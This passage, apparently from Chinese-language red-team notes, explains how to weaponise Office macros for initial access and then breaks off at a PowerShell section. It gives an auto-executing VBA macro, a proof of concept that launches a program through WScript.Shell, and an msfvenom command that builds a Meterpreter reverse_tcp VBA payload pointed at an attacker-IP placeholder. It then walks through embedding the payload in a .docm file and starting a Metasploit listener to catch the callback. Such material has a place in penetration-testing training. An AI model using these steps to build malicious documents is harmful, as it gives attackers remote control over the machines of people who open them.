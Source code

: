         Sub AutoOpen() ' 兼容旧版 Office 的自动执行函数
          THM
        End Sub
        ```
        
    - **保存**: 必须保存为启用宏的 Office 文件格式（如 `.docm`, 旧版 `.doc` 也支持）。
    - **执行**: 用户打开文档并点击“启用内容”/“启用宏”后自动执行。
    - **示例：执行可执行文件宏**:
        
        VBA
        
        ```
        Sub PoC()
            Dim payload As String
            payload = "calc.exe"
            CreateObject("Wscript.Shell").Run payload, 0 ' 使用 WScript.Shell 对象运行 calc.exe
        End Sub
        ' 同样需要将 PoC 函数添加到 Document_Open 和 AutoOpen 中实现自动执行
        ```
        
    - **示例：Metasploit Meterpreter VBA 载荷**:
        - **使用 `msfvenom` 生成**:
            
            Bash
            
            ```
            msfvenom -p windows/meterpreter/reverse_tcp LHOST=<攻击者IP> LPORT=443 -f vba
            # 生成 VBA 格式的 Meterpreter 载荷
            ```
            
        - **修改代码**: `msfvenom` 生成的 VBA 载荷通常用于 Excel，会自动生成 `Workbook_Open()` 函数。需要手动将其函数名更改为 `Document_Open()`，使其适用于 Word 文档。
        - **集成到文档**: 将修改后的 VBA 代码复制粘贴到 Word 文档的 VBA 编辑器中，保存为 `.docm` 文件。
        - **设置监听**: 在攻击者机器上使用 Metasploit `exploit/multi/handler` 设置监听。
            
            Bash
            
            ```
            msfconsole -q
            use exploit/multi/handler
            set payload windows/meterpreter/reverse_tcp
            set LHOST <攻击者IP>
            set LPORT 443
            exploit # 启动监听
            ```
            
        - 用户打开恶意 `.docm` 文件并启用宏后，Meterpreter 会话将回连。

##### 4. PowerShell (PSH)

- **是什么**: Windows 命令行 Shell 和脚本语言，基于 .NET Framework。功能强大，常用于系统管理和自动化。
- **特点**: 被红队广泛用于执行各种任务，包括初始访问、枚举、执行后渗透模块等。默认情况下，执行策略可能限制 `.ps1` 脚本的运行。
- **示例：简单脚本**:
    
    PowerShell
    